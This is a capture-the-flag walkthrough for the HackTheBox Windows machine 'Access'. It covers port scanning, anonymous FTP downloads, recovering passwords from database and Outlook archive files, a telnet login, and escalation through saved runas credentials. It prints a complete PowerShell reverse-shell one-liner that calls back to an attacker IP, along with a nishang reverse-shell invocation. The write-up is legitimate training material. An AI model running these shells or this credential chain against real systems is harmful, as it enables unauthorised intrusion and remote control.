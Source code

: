 ```yaml
---
title: HTB [Access]
date: 2023-02-19 01:28:05 +0200
categories: [windows,ACL]
tags: [HACKTHEBOX MACHINES]
excerpt: Access is an easy hackthebox machine that involves anonymous ftp login to download files and there are some creds outlook file, we can use that to get shell via telnet. For root we use the saved cred to run commands as Administrator using runas
---
```


![](https://i.imgur.com/Imw3pWQ.png)

## RECON

```js
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet  syn-ack Microsoft Windows XP telnetd
| telnet-ntlm-info:
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

<br>

- It's a windows machine and three ports opened
- Anonymous login is allowed in FTP

![](https://i.imgur.com/2eL5d9M.png)

- There's a single file in each directory
- Download that first
- 'Access Control.zip' and  `backup.mdb`
- `backup.mdb` is `Microsoft Access Database`
- The zip file is protected by password

![](https://i.imgur.com/digFFvL.png)

- So let's use `mdb` tools to see is there any password stored in `backup.mdb` file!
- There's a table called `auth_user`

![](https://i.imgur.com/BMgmf2g.png)

- Using the password `access4u@security` to extract `Access Control.zip` gives a file named `Access Control.pst` 

![](https://i.imgur.com/0Y9OWl0.png)

- Extract it

![](https://i.imgur.com/ltAzr84.png)

- We got some creds `security:4Cc3ssC0ntr0ller`

## INITIAL FOOTHOLD

![](https://i.imgur.com/bsXoSUo.png)

- Use this creds in telnet to login, there we can execute commands
- This shell is superslow and we can't able to delete letters
- So I'm gonna use a powershell  oneliner to get a rev shell to my machine

<br>

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.10',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

<br>

![](https://i.imgur.com/ux1oaLm.png)


## PRIVESC 

![](https://i.imgur.com/U50azsI.png)

- This file seems interesting, it's a shortcut file for `ZKAccess 3.5 Security System software`
- It's a security management software that provides various features such as access control, time and attendance management, and alarm monitoring

![](https://i.imgur.com/z3LJ1IU.png)

- They're using `runas.exe`
- Note `user:ACCESS\Administrator /savecred `

> The /savecred parameter in the runas command in Windows allows the user to save the credentials used for the specified command

![](https://i.imgur.com/TxgQROg.png)

- We can use `cmdkey` to list the saved credentials, so they saved credentials for Administrator here
- Now we can use runas command to run commands as `Administrator` using this `/savecred` parameter
- The above payload which we used to get not worked, so I'm gonna use `nishang/Shells/Invoke-PowerShellTcp.ps1`
- You can download this in github
- Add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 1337` to the end of the powershell script and start a python server

![](https://i.imgur.com/3xG3Pzm.png)

- And we got the shell!!